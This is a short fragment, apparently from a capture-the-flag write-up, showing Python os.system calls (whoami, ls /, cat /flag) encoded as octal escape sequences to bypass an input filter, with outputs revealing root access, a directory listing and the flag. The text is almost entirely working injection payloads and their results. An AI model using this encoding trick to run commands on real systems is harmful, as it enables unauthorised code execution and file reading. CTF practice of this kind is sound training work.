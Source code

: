os.system('whoami')

\157\163\056\163\171\163\164\145\155\050\047\167\150\157\141\155\151\047\051

Result: root 0


os.system('ls /')

\157\163\056\163\171\163\164\145\155\050\047\154\163\040\057\047\051

Result: app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 0

os.system('cat /flag')

\157\163\056\163\171\163\164\145\155\050\047\143\141\164\040\057\146\154\141\147\047\051\012

Result: flag{69a179f7-e134-4049-9a80-0f68fd93024e} 0